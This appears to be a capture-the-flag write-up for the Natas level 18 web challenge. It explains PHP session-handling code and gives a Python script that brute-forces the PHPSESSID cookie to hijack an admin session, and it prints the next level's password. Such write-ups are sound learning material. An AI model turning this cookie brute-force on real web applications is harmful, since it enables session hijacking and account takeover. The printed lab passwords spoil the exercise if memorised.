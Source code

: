 
> Taking a look at the source code: 

![](./screenshots/18-1.png)

1. The first function `isValidAdminLogin()` does nothing as its content is commented out.
2. `isValidId()` function checks if the `id` parameter is a number.
3. `createId()` function generates a random `id` between 1 and 640 defined above.
4. `debug()` function prints to the screen the message passed as a parameter.
5. `my_session_start()` function checks if the cookie `PHPSESSID` exists, and it is valid by calling the `isValidId()` function to check if it is a number. Then a session is started, if it starts successfuly, it checks if the `admin` variable is present in the session storage. If it does't exist, then it sets `admin` to 0 in the session storage, else it returns true.

![](./screenshots/18-2.png)

6. `print_credentials()` function checks if there is a session, and if the `admin` variable exists in the session storage and if its value is 1. If that is the case, it prints out the password for the next level.
7. The remaining portion is the code that is executed. If `my_session_start()` returns true, then the credentials will be printed. Otherwise, it executes the login functionality normally and the admin password isn't printed.

> To bypass this authentication technique, we can try bruteforcing the `PHPSESSID` cookie for all the valid numbers.
> We can do that using this python script:

```python
import requests
import re
from string import *

auth_username = "natas18"
auth_password = "8NEDUUxg8kFgPV84uLwvZkGn6okJQ6aq"
url = "http://natas18.natas.labs.overthewire.org/"

session = requests.Session()

for i in range(1, 640):
    print("Trying with session id: " + str(i))
    response = session.get(url, auth=(auth_username, auth_password), cookies={"PHPSESSID": str(i)})
    content = response.text
    if "You are an admin" in content:
        print("Found admin session id: " + str(i))
        print(content)
        break
```

> This simply sets the cookie `PHPSESSID` to be all valid values from 1 to 640 to check which one is the admin id.
> The admin id once set opens the admin session, adding the `admin` variable to the session storage.

> If we try to add the `admin` variable to the session storage by ourselves and letting it be `1`, we get the debug message `"Session was old: admin flag set"`.
> This doesn't work as we need the session itself to set the `admin` variable in the local storage.
> Therefore, getting the right `PHPSESSID` for the admin opens the required session, and sets the required session variable `admin` to call the `print_credentials()` function.

> The script breaks once the correct id is found:

![](./screenshots/18-3.png)

> We get the credentials:

```
natas19:8LMJEhKFbMKIL2mxQKjv0aEDdk7zpT0s
```

---
